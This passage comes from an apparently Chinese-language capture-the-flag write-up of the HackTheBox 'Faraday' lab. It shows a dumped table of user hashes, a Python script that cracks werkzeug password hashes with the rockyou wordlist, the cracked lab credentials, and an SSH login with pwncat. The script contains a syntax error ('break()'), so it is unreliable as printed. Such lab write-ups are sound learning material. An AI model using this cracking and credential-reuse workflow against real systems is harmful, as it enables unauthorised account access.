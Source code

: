 | 12  |     `test@htb.com`     |    test123    | sha256$2YzqHS2IjQSNNhAM$b828806ba700907ccaec5a7dc11c6e954bf88f1a1420c2f09d51d12f562787fb |
| 13  |  `123123@123123.com`   |    123123     | sha256$wdfHwGKUjaSoLDZt$97b51fd680f392c2528ad610e0f47a112b15742bce46952601bb5823b1d27b64 |
| 14  | `123123123111@123.com` | 123123123111  | sha256$mXJ8Ayy8Yd9u1bKS$771654b3d3502fa462eeddc565e450f0987665a3c03540a0a39dd4f19e0613f5 |
| 15  |  `abc12345123@a.com`   |  abc12345123  | sha256$PnWSUk3MlMz9urx9$cee45d83952be1658c914ed4316727309e01a61284650ccedaec2ad48cf7bd45 |

结合服务端采用的是

```python
from werkzeug.security import generate_password_hash, check_password_hash
```

于是编写脚本进行爆破

```python
from werkzeug.security import check_password_hash

hashes = open("hashs.txt", "r")

for hash in hashes:
    hash = hash.strip()
    user = hash.split(":")[0]
    hash = hash.split(":")[1]

    with open("/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt", "r", errors="ignore") as file:
        for line in file:
            password = line.strip()
            if check_password_hash(hash, password):
                print(f"Credencial valida: {user}:{password}")
                break()
```

最终得到

```plaintext
pasta:antihacker
pepe:sarmiento
administrator:ihatepasta
octo:octopass
test:test
```

使用 `pasta` 的凭据，成功登录 SSH 服务

```bash
┌──(randark ㉿ kali)-[~/tmp/HackTheBox-Fortresses-Faraday]
└─$ pwncat-cs pasta@10.13.37.14
[19:04:27] Welcome to pwncat 🐈!
Password: **********
[19:04:43] 10.13.37.14:22: registered new host w/ db
(local) pwncat$ back
(remote) pasta@erlenmeyer:/home/pasta$ whoami
pasta
```
